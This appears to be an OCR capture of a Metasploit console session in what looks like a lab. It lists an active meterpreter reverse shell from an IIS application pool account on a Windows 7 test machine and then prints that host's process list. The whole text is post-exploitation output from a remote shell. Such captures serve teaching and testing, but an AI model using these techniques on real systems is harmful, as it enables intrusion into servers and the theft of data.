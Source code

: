     msf exploit(handler) > sessions
    
    Active sessions
    ===============
    
      Id  Type                     Information                         Connection
      --  ----                     -----------                         ----------
      16  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:4444 -> 192.168.0.102:49158     (192.168.0.102)
    
    msf exploit(handler) > sessions 16
    [*] Starting interaction with 16...
    
    meterpreter > ps
    
    Process List
    ============
    
     PID   PPID  Name                  Arch  Session  User                     Path
     ---   ----  ----                  ----  -------  ----                     ----
     0     0     [System Process]                                              
     4     0     System                                                        
     240   4     smss.exe                                                      
     336   328   csrss.exe                                                     
     388   328   wininit.exe                                                   
     396   380   csrss.exe                                                     
     444   380   winlogon.exe                                                  
     488   388   services.exe                                                  
     496   388   lsass.exe                                                     
     504   388   lsm.exe                                                       
     608   488   svchost.exe                                                   
     636   488   svchost.exe                                                   
     672   488   svchost.exe                                                   
     724   488   svchost.exe                                                   
     792   444   LogonUI.exe                                                   
     824   488   svchost.exe                                                   
     876   488   svchost.exe                                                   
     916   488   svchost.exe                                                   
     976   488   sppsvc.exe                                                    
     988   724   audiodg.exe           x86   0                                 
     1136  488   svchost.exe                                                   
     1248  488   spoolsv.exe                                                   
     1284  488   svchost.exe                                                   
     1356  488   vmicsvc.exe                                                   
     1376  488   vmicsvc.exe                                                   
     1404  488   vmicsvc.exe                                                   
     1444  488   vmicsvc.exe                                                   
     1472  488   vmicsvc.exe                                                   
     1500  488   svchost.exe                                                   
     1548  488   svchost.exe                                                   
     1664  488   FileZilla Server.exe                                          
     1736  488   Tomcat7.exe                                                   
     1764  336   conhost.exe                                                   
     1804  488   vmtoolsd.exe                                                  
     1836  488   svchost.exe                                                   
     1880  488   wlms.exe                                                      
     2248  608   WmiPrvSE.exe                                                  
     2436  488   dllhost.exe                                                   
     2488  488   dllhost.exe                                                   
     2580  488   msdtc.exe                                                     
     2708  488   VSSVC.exe                                                     
     2856  1836  w3wp.exe              x86   0        IIS APPPOOL\MyFirstSite  c:\windows\system32\inetsrv\w3wp.exe
